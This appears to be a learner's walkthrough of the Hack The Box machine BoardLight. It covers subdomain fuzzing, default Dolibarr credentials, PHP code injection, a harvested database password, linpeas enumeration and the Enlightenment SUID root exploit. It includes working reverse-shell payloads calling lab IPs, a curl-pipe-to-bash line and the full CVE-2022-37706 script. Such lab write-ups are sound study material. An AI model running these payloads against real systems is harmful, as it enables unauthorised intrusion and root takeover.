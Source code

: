 # NOTE: IPPSec video is a must watch. explains in detail with code analysis and goes beyond scope. Has a lot of good information
## Reconnaissance
- 10.10.11.11
- port 80 : BoardLight
- can submit message (maybe RCE via that?)
- dirbuster finds some js code files.
- ffuf for fuzzing url
```
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/Web-Content/big.txt   -H "Host:FUZZ.board.htb" -fs 15949
```
- We find crm.board.htb and att to /etc/hosts file
- This url leads us to login page.
- on searching google we see default creds is admin/admin
- We also see the version and on searching online we see it has a vulnerability : PHP code injection
- also has a github which automates it.
```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
- pass after logging in with creds- Gain access as www-data
## Manual method
- create new website
- add php code in Edit HTML Source
- pass php command to check
- doesn't work but we see that its case sensitive and can pass if we make any or all characters in PHP uppercase
- pass command with new knowledge
```
<?PHP echo system("whoami");?>
OR
<?pHp phpinfo();?>
```
- save and click Preview page.
- - pass reverse shell 
```
<?php system(bash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'); ?>
```
- main exploit (from writeup htb):
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.25 4455 >/tmp/f");?
```
- In the payload above, the PHP code utilizes the system() function to execute a shell command on the server. The command first removes any existing named pipe at /tmp/f to ensure there is no conflict. It then creates a new named pipe in the same location. The command reads from the named pipe, while cat /tmp/f /bin/sh -i 2>&1 starts an interactive shell, redirecting both standard output and error to the named pipe. Finally, the nc 10.10.14.41 4455 > /tmp/f command connects to our IP address on port 4455 using Netcat , allowing the input and output of the shell to flow through the named pipe. This setup effectively creates a reverse shell connection back to our listener, enabling remote command execution on the target system	 
- also pass php-reverse-shell.py (pentestmonkey) into it and that works too.
- for both i keep netcat listener open on required port.
- we check user and we are www-data
  
## Enumerating as www-data and Gaining initial foothold
- on enumerating we find htdocs, which holds a conf folder and a conf file.
- within that we find a dbuser and password.
```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
- I checked /home and found a larissa directory which implies a user named larissa.
- Can also check(more ideal enumeration)
```
cat /etc/passwd | grep "sh$" # or grep "sh" too
```
- shows user larissa can run bash
- ssh into machine with db_pass.
- **NOTE: Yes, can fall into a rabbit hole here as db_pass doesn't imply user pass. Definitely check IPPSec for a more detailed explanation but we eventually find some info enumerating. but it helps with the priv escalation anyway. Bottom line the code checks if user belongs to any user or groups and if not it can't execute the exploit. user larissa is part of adm group which is part of that list and thus can.)**
- 
## Privilege Escalation
- can send linpeas by first getting it from local machine, and starting a server:
```
sudo python3 -m http.server 9898
```
- call linpeas from target
```
wget http://10.10.14.25(source_ _addr):9898/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl http://10.10.14.25:9898/linpeas.sh|bash #to execute without downloading
```
- On enumerating we find some setuid files which are interesting. this can also be found by enumerating  with find for setuid:
```
find / -type f -perm -4000 2>/dev/null
```
- We find an enlightenment file which is unusual
- can't execute this as www-data
- can check version with larissa
```
englightenment --version
```
- we find it to be 0.23.1
- On searching online enlightenment has an exploit CVE-2022-37706
- We download from exploit.db url :
		https://www.exploit-db.com/exploits/51180
- and send it to target just like we did with linpeas and www-data user. Need to edit the exploit to only include the bash code within it.
```
wget http://10.10.14.25:9898/51180.txt
cat 51180.txt # copy bash code only
vi exploit.sh # paste bash code
chmod +x exploit.sh
./exploit.sh
whoami
```
- We gain root privileges
- root flag at /root/
---
## Root Priv Esc exploit in detail
- **NOTE: We can understand why better from IPPSecs source code analysis which basically calls a bash file. (there is an even better explanation of the actual exploit for root which is shown below and explains the directory path having ;, abd the weird // and all to bypass the codes restrictions to pass the exploit) long story short, in the main code it checks for the length which requires it to be around 6 characters and hence the extra // to pass that check. Many more checks  explained in his video and how this exploit passes through it.**
```
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o 
#MAIN PART OF EXPLOIT
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
----

